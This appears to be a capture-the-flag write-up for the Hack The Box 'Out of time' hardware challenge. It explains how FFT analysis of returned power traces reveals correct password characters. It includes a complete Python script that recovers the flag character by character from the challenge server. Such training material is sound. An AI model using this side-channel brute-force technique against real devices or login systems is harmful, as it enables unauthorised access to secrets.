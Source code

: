 # Out of time (Hardware)

In this challenge we get a service that asks for a password and returns an array of 1000 numbers depending on the given password. These numbers are a bit different each time we submit the password, even if it's the same password. 

We know that HTB{ should be the first part of the password. It's therefore good to analyze the two signals when a letter is correct and when it's not. To do this we decided to use fast fourier transform, this makes the differences clearer. 

Here we have 3 results from guessing the passwords A, O and H. Using fft on the array we get from guessing on these passwords. 

![](images/A_fft.png)
![](images/O_fft.png)
![](images/H_fft.png)

We can clearly see that something is going on with the H. This is good since it's the first letter of the flag. Continuing doing this we get the following.

![](images/HA_fft.png)
![](images/HQ_fft.png)
![](images/HT_fft.png)

We can use the following python script to extract the flag. 

```python
import time
import socket
import base64
import numpy as np
import string
import time
from tqdm import tqdm
import matplotlib.pyplot as plt


HOST = '167.172.57.19' # This must be changed to the corresponding value of the live instance
PORT = 30585  # This must be changed to the corresponding value of the live instance

# This function is used to decode the base64 transmitted power trace (which is a NumPy array)
def b64_decode_trace(leakage):
	byte_data = base64.b64decode(leakage) # decode base64
	return np.frombuffer(byte_data) # convert binary data into a NumPy array

def connect_to_socket(option, data):
	data = data.encode()
	with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
		s.connect((HOST, PORT))
		resp_1 = s.recv(1024)
		s.sendall(option) 	
		resp_2 = s.recv(1024)
		s.sendall(data) 

		resp_data = b''
		tmp = s.recv(8096)
		while tmp != b'':
			resp_data += tmp
			tmp = s.recv(8096)
		s.close()

		return resp_data

def get_power_trace(password_guess):
	leakage = connect_to_socket(b'1', password_guess)
	power_trace = b64_decode_trace(leakage)
	return power_trace

def solve(password_guess):
	best = -10000
	best_c = ""
	p0 = np.fft.fft(get_power_trace(password_guess+"%"))[1:].real
	for c in tqdm(string.printable):
		p1 = np.fft.fft(get_power_trace(password_guess+c))[1:].real
		val = ((p1-p0)**2).mean().real
		if (val > best):
			best = val
			best_c = c

	return password_guess+best_c


password_guess = ""

for i in range(100):
	password_guess = solve(password_guess)
	print (password_guess)
```

What this does is fist guessing on "%" which we assume wont be a part of the flag. We then get the square mean of the difference between this and our next guess. We then pick the one with the greatest value. After doing this for a few iterations we get the flag. 

```
HTB{c4n7_h1d3_f20m_71m3} 
```